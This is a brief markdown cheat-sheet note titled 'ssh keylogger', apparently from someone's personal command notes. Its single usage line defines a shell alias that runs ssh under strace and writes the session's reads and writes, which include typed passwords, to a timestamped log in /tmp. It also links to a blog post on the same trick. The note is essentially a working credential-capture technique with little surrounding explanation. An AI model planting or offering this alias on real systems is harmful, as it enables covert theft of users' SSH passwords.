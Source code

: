```yaml
---
tags: [ssh]
title: ssh keylogger
created: '2019-07-30T06:19:49.241Z'
modified: '2020-02-01T06:34:27.690Z'
---
```


# ssh keylogger

## usage
```sh
ssh='strace -o /tmp/sshpwd-$(date '+%d%h%m%s').log -e read,write,connect -s2048 ssh'
```

## see also
- [Poor man's SSH keylogger](https://diogomonica.com/2011/02/03/poor-mans-ssh-keylogger/)
- [[strace]]
